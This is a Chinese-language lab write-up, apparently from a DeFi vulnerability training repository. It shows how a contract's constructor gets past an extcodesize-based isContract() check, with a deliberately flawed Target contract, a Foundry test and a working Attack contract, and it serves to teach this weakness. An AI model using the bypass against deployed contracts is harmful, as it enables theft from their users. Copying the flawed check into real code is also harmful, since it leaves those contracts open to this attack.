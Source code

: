 # 绕过isContract()验证 
[Bypasscontract.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Bypasscontract.sol)  
**名称：** 绕过isContract()验证  
**描述：**   
攻击者只需要在智能合约的构造函数中编写代码，就可以绕过是否为智能合约的检测机制。  


**参考：**  
https://www.infuy.com/blog/bypass-contract-size-limitations-in-solidity-risks-and-prevention/  


**Target合约：**  
```
contract Target {
    function isContract(address account) public view returns (bool) {
        // 此方法依赖于extcodesize，它为构造函数中的合约返回0，因为代码仅在构造函数执行结束时存储。
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    bool public pwned = false;

    function protected() external {
        require(!isContract(msg.sender), "no contract allowed");
        pwned = true;
    }
}
```  
**如何测试：**  
forge test --contracts src/test/**Bypasscontract.sol**-vvvv  
```
// 测试攻击合约是否可以绕过目标合约检查的函数。
function testBypassContractCheck() public {
    // 在攻击之前记录Target合约的当前状态。 
    // 这通常会返回一个布尔值，指示合约是否已泄露。
    console.log("Before exploiting, protected status of TargetContract:", TargetContract.pwned());

    // 创建攻击合约的新实例，并将Target合约的地址传递给该实例。
    // 这将启动对目标合约的攻击。
    AttackerContract = new Attack(address(TargetContract));

    // 攻击后再次记录目标合约的状态。
    // 如果攻击成功，则状态应与初始状态不同。
    console.log("After exploiting, protected status of TargetContract:", TargetContract.pwned());

    // 记录一条声明，表明漏洞攻击过程已完成。
    console.log("Exploit completed");
}


// 为攻击Target合约而创建的攻击合约。
contract Attack {
    // 公共布尔值，表示此合约本身是否是合约
    bool public isContract;

    // 公共地址变量，用于存储此合约的地址。
    address public addr;

    // 只在创建Attack合约时，触发一次的构造函数。
    // 它将Target合约的地址作为参数。
    constructor(address _target) {
        // 调用目标合约的isContract()函数，传递本合约的地址。
        // 这通常是Target合约中的安全检查，以查看调用方是否为合约。
        // 但是由于这个调用是在构造函数中进行的，isContract()中的extcodesize检查将返回false。
        isContract = Target(_target).isContract(address(this));

        // 将此合约的地址分配给addr变量。
        addr = address(this);

        // 调用Target合约的protected()函数，该函数可能拒绝合约调用。
        // 但是由于isContract()检查中的漏洞，此调用成功。
        Target(_target).protected();
    }
}
```  
**红框：**  
攻击者只需要在智能合约的构造函数中编写代码，就可以绕过是否为智能合约的检测机制。  
![Alt text](image-11.png)